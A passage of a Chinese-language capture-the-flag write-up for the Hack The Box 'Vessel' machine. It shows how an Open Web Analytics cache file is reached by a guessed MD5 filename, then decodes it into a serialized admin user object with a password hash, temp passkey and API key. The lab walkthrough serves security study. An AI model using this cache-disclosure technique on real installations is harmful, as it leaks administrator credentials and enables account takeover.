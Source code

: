有多处调用该函数，但是有一处是用户操作有关，给定了 `user_id`：

```php
function getUser() {

        // fetch user object from the db
        $this->u = owa_coreAPI::entityFactory('base.user');
        $this->u->getByColumn('user_id', $this->credentials['user_id']);
    }
```

所以例如GetUser对应得是 `user_id1`  （转为md5 ： `c30da9265ba0a4704db9229f864c9eb7` ）

然后根据以上分析的，访问 cache_file

```php
http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/c30da9265ba0a4704db9229f864c9eb7.php
```

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2016.png)

base64 decode

```php
O:8:"owa_user":5:{s:4:"name";s:9:"base.user";s:10:"properties";a:10:{s:2:"id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:1:"1";s:9:"data_type";s:6:"SERIAL";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:7:"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:1;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:8:"password";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:60:"$2y$10$yjH5xlwtXG9VoB66ridzt.x9iL9jvBfeHByOXtmUQqDU9an7hyscy";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:4:"role";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:9:"real_name";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:13:"default admin";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:13:"email_address";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:16:"admin@vessel.htb";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:12:"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:32:"ac9e4437ca5150340fdd0578d70a4211";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:13:"creation_date";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:10:"1650211659";s:9:"data_type";s:6:"BIGINT";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:16:"last_update_date";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:10:"1650211659";s:9:"data_type";s:6:"BIGINT";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}s:7:"api_key";O:12:"owa_dbColumn":11:{s:4:"name";s:7:"api_key";s:5:"value";s:32:"a390cc0247ecada9a2b8d2338b9ca6d2";s:9:"data_type";s:12:"VARCHAR(255)";s:11:"foreign_key";N;s:14:"is_primary_key";b:0;s:14:"auto_increment";b:0;s:9:"is_unique";b:0;s:11:"is_not_null";b:0;s:5:"label";N;s:5:"index";N;s:13:"default_value";N;}}s:16:"_tableProperties";a:4:{s:5:"alias";s:4:"user";s:4:"name";s:8:"owa_user";s:9:"cacheable";b:1;s:23:"cache_expiration_period";i:604800;}s:12:"wasPersisted";b:1;s:5:"cache";N;}
```
